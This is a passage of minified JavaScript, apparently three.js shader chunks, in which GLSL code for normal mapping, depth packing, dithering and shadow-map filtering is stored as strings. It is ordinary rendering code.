normal;\",normal_fragment_maps:\"#ifdef USE_NORMALMAP_OBJECTSPACE\\n\\tnormal = texture2D( normalMap, vNormalMapUv ).xyz * 2.0 - 1.0;\\n\\t#ifdef FLIP_SIDED\\n\\t\\tnormal = - normal;\\n\\t#endif\\n\\t#ifdef DOUBLE_SIDED\\n\\t\\tnormal = normal * faceDirection;\\n\\t#endif\\n\\tnormal = normalize( normalMatrix * normal );\\n#elif defined( USE_NORMALMAP_TANGENTSPACE )\\n\\tvec3 mapN = texture2D( normalMap, vNormalMapUv ).xyz * 2.0 - 1.0;\\n\\tmapN.xy *= normalScale;\\n\\tnormal = normalize( tbn * mapN );\\n#elif defined( USE_BUMPMAP )\\n\\tnormal = perturbNormalArb( - vViewPosition, normal, dHdxy_fwd(), faceDirection );\\n#endif\",normal_pars_fragment:\"#ifndef FLAT_SHADED\\n\\tvarying vec3 vNormal;\\n\\t#ifdef USE_TANGENT\\n\\t\\tvarying vec3 vTangent;\\n\\t\\tvarying vec3 vBitangent;\\n\\t#endif\\n#endif\",normal_pars_vertex:\"#ifndef FLAT_SHADED\\n\\tvarying vec3 vNormal;\\n\\t#ifdef USE_TANGENT\\n\\t\\tvarying vec3 vTangent;\\n\\t\\tvarying vec3 vBitangent;\\n\\t#endif\\n#endif\",normal_vertex:\"#ifndef FLAT_SHADED\\n\\tvNormal = normalize( transformedNormal );\\n\\t#ifdef USE_TANGENT\\n\\t\\tvTangent = normalize( transformedTangent );\\n\\t\\tvBitangent = normalize( cross( vNormal, vTangent ) * tangent.w );\\n\\t#endif\\n#endif\",normalmap_pars_fragment:\"#ifdef USE_NORMALMAP\\n\\tuniform sampler2D normalMap;\\n\\tuniform vec2 normalScale;\\n#endif\\n#ifdef USE_NORMALMAP_OBJECTSPACE\\n\\tuniform mat3 normalMatrix;\\n#endif\\n#if ! defined ( USE_TANGENT ) && ( defined ( USE_NORMALMAP_TANGENTSPACE ) || defined ( USE_CLEARCOAT_NORMALMAP ) || defined( USE_ANISOTROPY ) )\\n\\tmat3 getTangentFrame( vec3 eye_pos, vec3 surf_norm, vec2 uv ) {\\n\\t\\tvec3 q0 = dFdx( eye_pos.xyz );\\n\\t\\tvec3 q1 = dFdy( eye_pos.xyz );\\n\\t\\tvec2 st0 = dFdx( uv.st );\\n\\t\\tvec2 st1 = dFdy( uv.st );\\n\\t\\tvec3 N = surf_norm;\\n\\t\\tvec3 q1perp = cross( q1, N );\\n\\t\\tvec3 q0perp = cross( N, q0 );\\n\\t\\tvec3 T = q1perp * st0.x + q0perp * st1.x;\\n\\t\\tvec3 B = q1perp * st0.y + q0perp * st1.y;\\n\\t\\tfloat det = max( dot( T, T ), dot( B, B ) );\\n\\t\\tfloat scale = ( det == 0.0 ) ? 0.0 : inversesqrt( det );\\n\\t\\treturn mat3( T * scale, B * scale, N );\\n\\t}\\n#endif\",clearcoat_normal_fragment_begin:\"#ifdef USE_CLEARCOAT\\n\\tvec3 clearcoatNormal = nonPerturbedNormal;\\n#endif\",clearcoat_normal_fragment_maps:\"#ifdef USE_CLEARCOAT_NORMALMAP\\n\\tvec3 clearcoatMapN = texture2D( clearcoatNormalMap, vClearcoatNormalMapUv ).xyz * 2.0 - 1.0;\\n\\tclearcoatMapN.xy *= clearcoatNormalScale;\\n\\tclearcoatNormal = normalize( tbn2 * clearcoatMapN );\\n#endif\",clearcoat_pars_fragment:\"#ifdef USE_CLEARCOATMAP\\n\\tuniform sampler2D clearcoatMap;\\n#endif\\n#ifdef USE_CLEARCOAT_NORMALMAP\\n\\tuniform sampler2D clearcoatNormalMap;\\n\\tuniform vec2 clearcoatNormalScale;\\n#endif\\n#ifdef USE_CLEARCOAT_ROUGHNESSMAP\\n\\tuniform sampler2D clearcoatRoughnessMap;\\n#endif\",iridescence_pars_fragment:\"#ifdef USE_IRIDESCENCEMAP\\n\\tuniform sampler2D iridescenceMap;\\n#endif\\n#ifdef USE_IRIDESCENCE_THICKNESSMAP\\n\\tuniform sampler2D iridescenceThicknessMap;\\n#endif\",opaque_fragment:\"#ifdef OPAQUE\\ndiffuseColor.a = 1.0;\\n#endif\\n#ifdef USE_TRANSMISSION\\ndiffuseColor.a *= material.transmissionAlpha;\\n#endif\\ngl_FragColor = vec4( outgoingLight, diffuseColor.a );\",packing:\"vec3 packNormalToRGB( const in vec3 normal ) {\\n\\treturn normalize( normal ) * 0.5 + 0.5;\\n}\\nvec3 unpackRGBToNormal( const in vec3 rgb ) {\\n\\treturn 2.0 * rgb.xyz - 1.0;\\n}\\nconst float PackUpscale = 256. / 255.;const float UnpackDownscale = 255. / 256.;const float ShiftRight8 = 1. / 256.;\\nconst float Inv255 = 1. / 255.;\\nconst vec4 PackFactors = vec4( 1.0, 256.0, 256.0 * 256.0, 256.0 * 256.0 * 256.0 );\\nconst vec2 UnpackFactors2 = vec2( UnpackDownscale, 1.0 / PackFactors.g );\\nconst vec3 UnpackFactors3 = vec3( UnpackDownscale / PackFactors.rg, 1.0 / PackFactors.b );\\nconst vec4 UnpackFactors4 = vec4( UnpackDownscale / PackFactors.rgb, 1.0 / PackFactors.a );\\nvec4 packDepthToRGBA( const in float v ) {\\n\\tif( v <= 0.0 )\\n\\t\\treturn vec4( 0., 0., 0., 0. );\\n\\tif( v >= 1.0 )\\n\\t\\treturn vec4( 1., 1., 1., 1. );\\n\\tfloat vuf;\\n\\tfloat af = modf( v * PackFactors.a, vuf );\\n\\tfloat bf = modf( vuf * ShiftRight8, vuf );\\n\\tfloat gf = modf( vuf * ShiftRight8, vuf );\\n\\treturn vec4( vuf * Inv255, gf * PackUpscale, bf * PackUpscale, af );\\n}\\nvec3 packDepthToRGB( const in float v ) {\\n\\tif( v <= 0.0 )\\n\\t\\treturn vec3( 0., 0., 0. );\\n\\tif( v >= 1.0 )\\n\\t\\treturn vec3( 1., 1., 1. );\\n\\tfloat vuf;\\n\\tfloat bf = modf( v * PackFactors.b, vuf );\\n\\tfloat gf = modf( vuf * ShiftRight8, vuf );\\n\\treturn vec3( vuf * Inv255, gf * PackUpscale, bf );\\n}\\nvec2 packDepthToRG( const in float v ) {\\n\\tif( v <= 0.0 )\\n\\t\\treturn vec2( 0., 0. );\\n\\tif( v >= 1.0 )\\n\\t\\treturn vec2( 1., 1. );\\n\\tfloat vuf;\\n\\tfloat gf = modf( v * 256., vuf );\\n\\treturn vec2( vuf * Inv255, gf );\\n}\\nfloat unpackRGBAToDepth( const in vec4 v ) {\\n\\treturn dot( v, UnpackFactors4 );\\n}\\nfloat unpackRGBToDepth( const in vec3 v ) {\\n\\treturn dot( v, UnpackFactors3 );\\n}\\nfloat unpackRGToDepth( const in vec2 v ) {\\n\\treturn v.r * UnpackFactors2.r + v.g * UnpackFactors2.g;\\n}\\nvec4 pack2HalfToRGBA( const in vec2 v ) {\\n\\tvec4 r = vec4( v.x, fract( v.x * 255.0 ), v.y, fract( v.y * 255.0 ) );\\n\\treturn vec4( r.x - r.y / 255.0, r.y, r.z - r.w / 255.0, r.w );\\n}\\nvec2 unpackRGBATo2Half( const in vec4 v ) {\\n\\treturn vec2( v.x + ( v.y / 255.0 ), v.z + ( v.w / 255.0 ) );\\n}\\nfloat viewZToOrthographicDepth( const in float viewZ, const in float near, const in float far ) {\\n\\treturn ( viewZ + near ) / ( near - far );\\n}\\nfloat orthographicDepthToViewZ( const in float depth, const in float near, const in float far ) {\\n\\treturn depth * ( near - far ) - near;\\n}\\nfloat viewZToPerspectiveDepth( const in float viewZ, const in float near, const in float far ) {\\n\\treturn ( ( near + viewZ ) * far ) / ( ( far - near ) * viewZ );\\n}\\nfloat perspectiveDepthToViewZ( const in float depth, const in float near, const in float far ) {\\n\\treturn ( near * far ) / ( ( far - near ) * depth - far );\\n}\",premultiplied_alpha_fragment:\"#ifdef PREMULTIPLIED_ALPHA\\n\\tgl_FragColor.rgb *= gl_FragColor.a;\\n#endif\",project_vertex:\"vec4 mvPosition = vec4( transformed, 1.0 );\\n#ifdef USE_BATCHING\\n\\tmvPosition = batchingMatrix * mvPosition;\\n#endif\\n#ifdef USE_INSTANCING\\n\\tmvPosition = instanceMatrix * mvPosition;\\n#endif\\nmvPosition = modelViewMatrix * mvPosition;\\ngl_Position = projectionMatrix * mvPosition;\",dithering_fragment:\"#ifdef DITHERING\\n\\tgl_FragColor.rgb = dithering( gl_FragColor.rgb );\\n#endif\",dithering_pars_fragment:\"#ifdef DITHERING\\n\\tvec3 dithering( vec3 color ) {\\n\\t\\tfloat grid_position = rand( gl_FragCoord.xy );\\n\\t\\tvec3 dither_shift_RGB = vec3( 0.25 / 255.0, -0.25 / 255.0, 0.25 / 255.0 );\\n\\t\\tdither_shift_RGB = mix( 2.0 * dither_shift_RGB, -2.0 * dither_shift_RGB, grid_position );\\n\\t\\treturn color + dither_shift_RGB;\\n\\t}\\n#endif\",roughnessmap_fragment:\"float roughnessFactor = roughness;\\n#ifdef USE_ROUGHNESSMAP\\n\\tvec4 texelRoughness = texture2D( roughnessMap, vRoughnessMapUv );\\n\\troughnessFactor *= texelRoughness.g;\\n#endif\",roughnessmap_pars_fragment:\"#ifdef USE_ROUGHNESSMAP\\n\\tuniform sampler2D roughnessMap;\\n#endif\",shadowmap_pars_fragment:\"#if NUM_SPOT_LIGHT_COORDS > 0\\n\\tvarying vec4 vSpotLightCoord[ NUM_SPOT_LIGHT_COORDS ];\\n#endif\\n#if NUM_SPOT_LIGHT_MAPS > 0\\n\\tuniform sampler2D spotLightMap[ NUM_SPOT_LIGHT_MAPS ];\\n#endif\\n#ifdef USE_SHADOWMAP\\n\\t#if NUM_DIR_LIGHT_SHADOWS > 0\\n\\t\\tuniform sampler2D directionalShadowMap[ NUM_DIR_LIGHT_SHADOWS ];\\n\\t\\tvarying vec4 vDirectionalShadowCoord[ NUM_DIR_LIGHT_SHADOWS ];\\n\\t\\tstruct DirectionalLightShadow {\\n\\t\\t\\tfloat shadowIntensity;\\n\\t\\t\\tfloat shadowBias;\\n\\t\\t\\tfloat shadowNormalBias;\\n\\t\\t\\tfloat shadowRadius;\\n\\t\\t\\tvec2 shadowMapSize;\\n\\t\\t};\\n\\t\\tuniform DirectionalLightShadow directionalLightShadows[ NUM_DIR_LIGHT_SHADOWS ];\\n\\t#endif\\n\\t#if NUM_SPOT_LIGHT_SHADOWS > 0\\n\\t\\tuniform sampler2D spotShadowMap[ NUM_SPOT_LIGHT_SHADOWS ];\\n\\t\\tstruct SpotLightShadow {\\n\\t\\t\\tfloat shadowIntensity;\\n\\t\\t\\tfloat shadowBias;\\n\\t\\t\\tfloat shadowNormalBias;\\n\\t\\t\\tfloat shadowRadius;\\n\\t\\t\\tvec2 shadowMapSize;\\n\\t\\t};\\n\\t\\tuniform SpotLightShadow spotLightShadows[ NUM_SPOT_LIGHT_SHADOWS ];\\n\\t#endif\\n\\t#if NUM_POINT_LIGHT_SHADOWS > 0\\n\\t\\tuniform sampler2D pointShadowMap[ NUM_POINT_LIGHT_SHADOWS ];\\n\\t\\tvarying vec4 vPointShadowCoord[ NUM_POINT_LIGHT_SHADOWS ];\\n\\t\\tstruct PointLightShadow {\\n\\t\\t\\tfloat shadowIntensity;\\n\\t\\t\\tfloat shadowBias;\\n\\t\\t\\tfloat shadowNormalBias;\\n\\t\\t\\tfloat shadowRadius;\\n\\t\\t\\tvec2 shadowMapSize;\\n\\t\\t\\tfloat shadowCameraNear;\\n\\t\\t\\tfloat shadowCameraFar;\\n\\t\\t};\\n\\t\\tuniform PointLightShadow pointLightShadows[ NUM_POINT_LIGHT_SHADOWS ];\\n\\t#endif\\n\\tfloat texture2DCompare( sampler2D depths, vec2 uv, float compare ) {\\n\\t\\treturn step( compare, unpackRGBAToDepth( texture2D( depths, uv ) ) );\\n\\t}\\n\\tvec2 texture2DDistribution( sampler2D shadow, vec2 uv ) {\\n\\t\\treturn unpackRGBATo2Half( texture2D( shadow, uv ) );\\n\\t}\\n\\tfloat VSMShadow (sampler2D shadow, vec2 uv, float compare ){\\n\\t\\tfloat occlusion = 1.0;\\n\\t\\tvec2 distribution = texture2DDistribution( shadow, uv );\\n\\t\\tfloat hard_shadow = step( compare , distribution.x );\\n\\t\\tif (hard_shadow != 1.0 ) {\\n\\t\\t\\tfloat distance = compare - distribution.x ;\\n\\t\\t\\tfloat variance = max( 0.00000, distribution.y * distribution.y );\\n\\t\\t\\tfloat softness_probability = variance / (variance + distance * distance );\\t\\t\\tsoftness_probability = clamp( ( softness_probability - 0.3 ) / ( 0.95 - 0.3 ), 0.0, 1.0 );\\t\\t\\tocclusion = clamp( max( hard_shadow, softness_probability ), 0.0, 1.0 );\\n\\t\\t}\\n\\t\\treturn occlusion;\\n\\t}\\n\\tfloat getShadow( sampler2D shadowMap, vec2 shadowMapSize, float shadowIntensity, float shadowBias, float shadowRadius, vec4 shadowCoord ) {\\n\\t\\tfloat shadow = 1.0;\\n\\t\\tshadowCoord.xyz /= shadowCoord.w;\\n\\t\\tshadowCoord.z += shadowBias;\\n\\t\\tbool inFrustum = shadowCoord.x >= 0.0 && shadowCoord.x <= 1.0 && shadowCoord.y >= 0.0 && shadowCoord.y <= 1.0;\\n\\t\\tbool frustumTest = inFrustum && shadowCoord.z <= 1.0;\\n\\t\\tif ( frustumTest ) {\\n\\t\\t#if defined( SHADOWMAP_TYPE_PCF )\\n\\t\\t\\tvec2 texelSize = vec2( 1.0 ) / shadowMapSize;\\n\\t\\t\\tfloat dx0 = - texelSize.x * shadowRadius;\\n\\t\\t\\tfloat dy0 = - texelSize.y * shadowRadius;\\n\\t\\t\\tfloat dx1 = + texelSize.x * shadowRadius;\\n\\t\\t\\tfloat dy1 = + texelSize.y * shadowRadius;\\n\\t\\t\\tfloat dx2 = dx0 / 2.0;\\n\\t\\t\\tfloat dy2 = dy0 / 2.0;\\n\\t\\t\\tfloat dx3 = dx1 / 2.0;\\n\\t\\t\\tfloat dy3 = dy1 / 2.0;\\n\\t\\t\\tshadow = (\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx0, dy0 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( 0.0, dy0 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx1, dy0 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx2, dy2 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( 0.0, dy2 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx3, dy2 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx0, 0.0 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx2, 0.0 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy, shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx3, 0.0 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx1, 0.0 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx2, dy3 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( 0.0, dy3 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx3, dy3 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx0, dy1 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( 0.0, dy1 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, shadowCoord.xy + vec2( dx1, dy1 ), shadowCoord.z )\\n\\t\\t\\t) * ( 1.0 / 17.0 );\\n\\t\\t#elif defined( SHADOWMAP_TYPE_PCF_SOFT )\\n\\t\\t\\tvec2 texelSize = vec2( 1.0 ) / shadowMapSize;\\n\\t\\t\\tfloat dx = texelSize.x;\\n\\t\\t\\tfloat dy = texelSize.y;\\n\\t\\t\\tvec2 uv = shadowCoord.xy;\\n\\t\\t\\tvec2 f = fract( uv * shadowMapSize + 0.5 );\\n\\t\\t\\tuv -= f * texelSize;\\n\\t\\t\\tshadow = (\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, uv, shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, uv + vec2( dx, 0.0 ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, uv + vec2( 0.0, dy ), shadowCoord.z ) +\\n\\t\\t\\t\\ttexture2DCompare( shadowMap, uv + texelSize, shadowCoord.z ) +\\n\\t\\t\\t\\tmix( texture2DCompare( shadowMap, uv + vec2( -dx, 0.0 ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t texture2DCompare( shadowMap, uv + vec2( 2.0 * dx, 0.0 ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t f.x ) +\\n\\t\\t\\t\\tmix( texture2DCompare( shadowMap, uv + vec2( -dx, dy ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t texture2DCompare( shadowMap, uv + vec2( 2.0 * dx, dy ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t f.x ) +\\n\\t\\t\\t\\tmix( texture2DCompare( shadowMap, uv + vec2( 0.0, -dy ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t texture2DCompare( shadowMap, uv + vec2( 0.0, 2.0 * dy ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t f.y ) +\\n\\t\\t\\t\\tmix( texture2DCompare( shadowMap, uv + vec2( dx, -dy ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t texture2DCompare( shadowMap, uv + vec2( dx, 2.0 * dy ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t f.y ) +\\n\\t\\t\\t\\tmix( mix( texture2DCompare( shadowMap, uv + vec2( -dx, -dy ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t\\t  texture2DCompare( shadowMap, uv + vec2( 2.0 * dx, -dy ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t\\t  f.x ),\\n\\t\\t\\t\\t\\t mix( texture2DCompare( shadowMap, uv + vec2( -dx, 2.0 * dy ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t\\t  texture2DCompare( shadowMap, uv + vec2( 2.0 * dx, 2.0 * dy ), shadowCoord.z ),\\n\\t\\t\\t\\t\\t\\t  f.x ),\\n\\t\\t\\t\\t\\t f.y )\\n\\t\\t\\t) * ( 1.0 / 9.0 );\\n\\t\\t#elif defined( SHADOWMAP_TYPE_VSM )\\n\\t\\t\\tshadow = VSMShadow( shadowMap, shadowCoord.xy, shadowCoord.z );\\n\\t\\t#else\\n\\t\\t\\tshadow = texture2DCompare( shadowMap, shadowCoord.xy, shadowCoord.z );\\n\\t\\t#endif\\n\\t\\t}\\n\\t\\treturn mix( 1.0, shadow, shadowIntensity );\\n\\t}\\n\\tvec2 cubeToUV( vec3 v, float texelSizeY ) {\\n\\t\\tvec3 absV = abs( v );\\n\\t\\tfloat scaleToCube = 1.0 / max( absV.x, max( absV.y, absV.z ) );\\n\\t\\tabsV *= scaleToCube;\\n\\t\\tv *= scaleToCube * ( 1.0 - 2.0 * texelSizeY );\\n\\t\\tvec2 planar = v.xy;\\n\\t\\tfloat almostATexel = 1.5 * texelSizeY;\\n\\t\\tfloat almostOne = 1.0 - almostATexel;\\n\\t\\tif ( absV.z >= almostOne ) {\\n\\t\\t\\tif ( v.z > 0.0 )\\n\\t\\t\\t\\tplanar.x = 4.0 - v.x;\\n\\t\\t} else if ( absV.x >= almostOne ) {\\n\\t\\t\\tfloat signX = sign( v.x );\\n\\t\\t\\tplanar.x = v.z * signX + 2.0 * signX;\\n\\t\\t} else if ( absV.y >= almostOne ) {\\n\\t\\t\\tfloat signY = sign( v.y );\\n\\t\\t\\tplanar.x = v.x + 2.0 * signY + 2.0;\\n\\t\\t\\tplanar.y = v.z * signY - 2.0;\\n\\t\\t}\\n\\t\\treturn vec2( 0.125, 0.25 ) * planar + vec2( 0.375, 0.75 );\\n\\t}\\n\\tfloat getPointShadow( sampler2D shadowMap, vec2 shadowMapSize, float shadowIntensity, float shadowBias, float shadowRadius, vec4 shadowCoord, float shadowCameraNear, float shadowCameraFar ) {\\n\\t\\tfloat shadow = 1.0;\\n\\t\\tvec3 lightToPosition = shadowCoord.xyz;\\n\\t\\t\\n\\t\\tfloat lightToPositionLength = length( lightToPosition );\\n\\t\\tif ( lightToPositionLength - shadowCameraFar <= 0.0 && lightToPositionLength - shadowCameraNear >= 0.0 ) {\\n\\t\\t\\tfloat dp = ( lightToPositionLength - shadowCameraNear ) / ( shadowCameraFar - shadowCameraNear );\\t\\t\\tdp += shadowBias;\\n\\t\\t\\tvec3 bd3D = normalize( lightToPosition );\\n\\t\\t\\tvec2 texelSize = vec2( 1.0 ) / ( shadowMapSize * vec2( 4.0, 2.0 ) );\\n\\t\\t\\t#if defined( SHADOWMAP_TYPE_PCF ) || defined( SHADOWMAP_TYPE_PCF_SOFT ) || defined( SHADOWMAP_TYPE_VSM )\\n\\t\\t\\t\\tvec2 offset = vec2( - 1, 1 ) * shadowRadius * texelSize.y;\\n\\t\\t\\t\\tshadow = (\\n\\t\\t\\t\\t\\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.xyy, texelSize.y ), dp ) +\\n\\t\\t\\t\\t\\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.yyy, texelSize.y ), dp ) +\\n\\t\\t\\t\\t\\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.xyx, texelSize.y ), dp ) +\\n\\t\\t\\t\\t\\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.yyx, texelSize.y ), dp ) +\\n\\t\\t\\t\\t\\ttexture2DCompare( shadowMap, cubeToUV( bd3D, texelSize.y ), dp ) +\\n\\t\\t\\t\\t\\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.xxy, texelSize.y ), dp ) +\\n\\t\\t\\t\\t\\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.yxy, texelSize.y ), dp ) +\\n\\t\\t\\t\\t\\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.xxx, texelSize.y ), dp ) +\\n\\t\\t\\t\\t\\ttexture2DCompare( shadowMap, cubeToUV( bd3D + offset.yxx, texelSize.y ), dp )\\n\\t\\t\\t\\t) * ( 1.0 / 9.0 );\\n\\t\\t\\t#else\\n\\t\\t\\t\\tshadow = texture2DCompare( shadowMap, cubeToUV( bd3D, texelSize.y ), dp );\\n\\t\\t\\t#endif\\n\\t\\t}\\n\\t\\treturn mix( 1.0, shadow, shadowIntensity );\\n\\t}\\n#endif\",shadowmap_pars_vertex:\"#if NUM_SPOT_LIGHT_COORDS > 0\\n\\tuniform mat4 spotLightMatrix[ NUM_SPOT_LIGHT_COORDS ];\\n\\tvarying vec4 vSpotLightCoord[ NUM_SPOT_LIGHT_COORDS ];\\n#endif\\n#ifdef USE_SHADOWMAP\\n\\t#if NUM_DIR_LIGHT_SHADOWS > 0\\n\\t\\tuniform mat4 directionalShadowMatrix[ NUM_DIR_LIGHT_SHADOWS ];\\n\\t\\tvarying vec4 vDirectionalShadowCoord[ NUM_DIR_LIGHT_SHADOWS ];\\n\\t\\tstruct DirectionalLightShadow {\\n\\t\\t\\tfloat shadowIntensity;\\n\\t\\t\\tfloat shadowBias;\\n\\t\\t\\tfloat shadowNormalBias;\\n\\t\\t\\tfloat shadowRadius;\\n\\t\\t\\tvec2 shadowMapSize;\\n\\t\\t};\\n\\t\\tuniform DirectionalLightShadow directionalLightShadows[ NUM_DIR_LIGHT_SHADOWS ];\\n\\t#endif\\n\\t#if NUM_SPOT_LIGHT_SHADOWS > 0\\n\\t\\tstruct SpotLightShadow {\\n\\t\\t\\tfloat shadowIntensity;\\n\\t\\t\\tfloat shadowBias;\\n\\t\\t\\tfloat shadowNormalBias;\\n\\t\\t\\tfloat shadowRadius;\\n\\t\\t\\tvec2 shadowMapSize;\\n\\t\\t};\\n\\t\\tuniform SpotLightShadow spotLightShadows[ NUM_SPOT_LIGHT_SHADOWS ];\\n\\t#endif\\n\\t#if NUM_POINT_LIGHT_SHADOWS > 0\\n\\t\\tuniform mat4 pointShadowMatrix[ NUM_POINT_LIGHT_SHADOWS ];\\n\\t\\tvarying vec4 vPointShadowCoord[ NUM_POINT_LIGHT_SHADOWS ];\\n\\t\\tstruct PointLightShadow {\\n\\t\\t\\tfloat shadowIntensity;\\n\\t\\t\\tfloat shadowBias;\\n\\t\\t\\tfloat shadowNormalBias;\\n\\t\\t\\tfloat shadowRadius;\\n\\t\\t\\tvec2 shadowMapSize;\\n\\t\\t\\tfloat shadowCameraNear;\\n\\t\\t\\tfloat shadowCameraFar;\\n\\t\\t};\\n\\t\\tuniform PointLightShadow pointLightShadows[ NUM_POINT_LIGHT_SHADOWS ];\\n\\t#endif\\n#endif\",shadowmap_vertex:\"#if ( defined( USE_SHADOWMAP ) && ( NUM_DIR_LIGHT_SHADOWS > 0 || NUM_POINT_LIGHT_SHADOWS > 0 ) ) || ( NUM_SPOT_LIGHT_COORDS > 0 )\\n\\tvec3 shadowWorldNormal = inverseTransformDirection( transformedNormal, viewMatrix );\\n\\tvec4 shadowWorldPosition;\\n#endif\\n#if defined( USE_SHADOWMAP )\\n\\t#if NUM_DIR_LIGHT_SHADOWS > 0\\n\\t\\t#pragma unroll_loop_start\\n\\t\\tfor ( int i = 0; i < NUM_DIR_LIGHT_SHADOWS; i ++ ) {\\n\\t\\t\\tshadowWorldPosition = worldPosition + vec4( shadowWorldNormal * directionalLightShadows[ i ].shadowNormalBias, 0 );\\n\\t\\t\\tvDirectionalShadowCoord[ i ] = directionalShadowMatrix[ i ] * shadowWorldPosition;\\n\\t\\t}\\n\\t\\t#pragma unroll_loop_end\\n\\t#endif\\n\\t#if NUM_POINT_LIGHT_SHADOWS > 0\\n\\t\\t#pragma unroll_loop_start\\n\\t\\tfor ( int i = 0; i < NUM_POINT_LIGHT_SHADOWS; i ++ ) {\\n\\t\\t\\tshadowWorldPosition = worldPosition + vec4( shadowWorldNormal * pointLightShadows[ i ].shadowNormalBias, 0 );\\n\\t\\t\\tvPointShadowCoord[ i ] = pointShadowMatrix[ i ] * shadowWorldPosition;\\n\\t\\t}\\n\\t\\t#pragma unroll_loop_end\\n\\t#endif\\n#endif\\n#if NUM_SPOT_LIGHT_COORDS > 0\\n\\t#pragma unroll_loop_start\\n\\tfor ( int i = 0; i < NUM_SPOT_LIGHT_COORDS; i ++ ) {\\n\\t\\tshadowWorldPosition = worldPosition;\\n\\t\\t#if ( defined( USE_SHADOWMAP ) && UNROLLED_LOOP_INDEX < NUM_SPOT_LIGHT_SHADOWS )\\n\\t\\t\\tshadowWorldPosition.xyz += shadowWorldNormal * spotLightShadows[ i ].shadowNormalBias;\\n\\t\\t#endif\\n\\t\\tvSpotLightCoord[ i ] = spotLightMatrix[ i ] * shadowWorldPosition;\\n\\t}\\n\\t#pragma unroll_loop_end\\n#endif\",shadowmask_pars_fragment:\"float getShadowMask() {\\n\\tfloat shadow = 1.0;\\n\\t#ifdef USE_SHADOWMAP\\n\\t#if NUM_DIR_LIGHT_SHADOWS > 0\\n\\tDirectionalLightShadow directionalLight;\\n\\t#pragma unroll_loop_start\\n\\tfor ( int i = 0; i < NUM_DIR_LIGHT_SHADOWS; i ++ ) {\\n\\t\\tdirectionalLight = directionalLightShadows[ i ];\\n\\t\\tshadow *= receiveShadow ? getShadow( directionalShadowMap[ i ], directionalLight.shadowMapSize, directionalLight.shadowIntensity, directionalLight.shadowBias, directionalLight.shadowRadius, vDirectionalShadowCoord[ i ] ) : 1.0;\\n\\t}\\n\\t#pragma unroll_loop_end\\n\\t#endif\\n\\t#if NUM_SPOT_LIGHT_SHADOWS > 0\\n\\tSpotLightShadow spotLight;\\n\\t#pragma unroll_loop_start\\n\\tfor ( int i = 0; i < NUM_SPOT_LIGHT_SHADOWS; i ++ ) {\\n\\t\\tspotLight = spotLightShadows[ i ];\\n\\t\\tshadow *= receiveShadow ? getShadow( spotShadowMap[ i ], spotLight.shadowMapSize, spotLight.shadowIntensity, spotLight.shadowBias, spotLight.shadowRadius, vSpotLightCoord[ i ] ) : 1.0;\\n\\t}\\n\\t#pragma unroll_loop_end\\n\\t#endif\\n\\t#if NUM_POINT_LIGHT_SHADOWS > 0\\n\\tPointLightShadow pointLight;\\n\\t#pragma unroll_loop_start\\n\\tfor ( int i = 0; i < NUM_POINT_LIGHT_SHADOWS; i ++ ) {\\n\\t\\tpointLight = pointLightShadows[ i ];\\n\\t\\tshadow *= receiveShadow ? getPointShadow( pointShadowMap[ i ], pointLight.shadowMapSize, pointLight.shadowIntensity, pointLight.shadowBias, pointLight.shadowRadius, vPointShadowCoord[ i ], pointLight.shadowCameraNear, pointLight.shadowCameraFar ) : 1.0;\\n\\t}\\n\\t#pragma unroll_loop_end\\n\\t#endif\\n\\t#endif\\n\\treturn shadow;\\n}\",skinbase_vertex:\"#ifdef USE_SKINNING\\n\\tmat4 boneMatX = getBoneMatrix( skinIndex.x );\\n\\tmat4 boneMatY = getBoneMatrix( skinIndex.y );\\n\\tmat4 boneMatZ = getBoneMatrix( skinIndex.z );\\n\\tmat4 boneMatW = getBoneMatrix( skinIndex.w 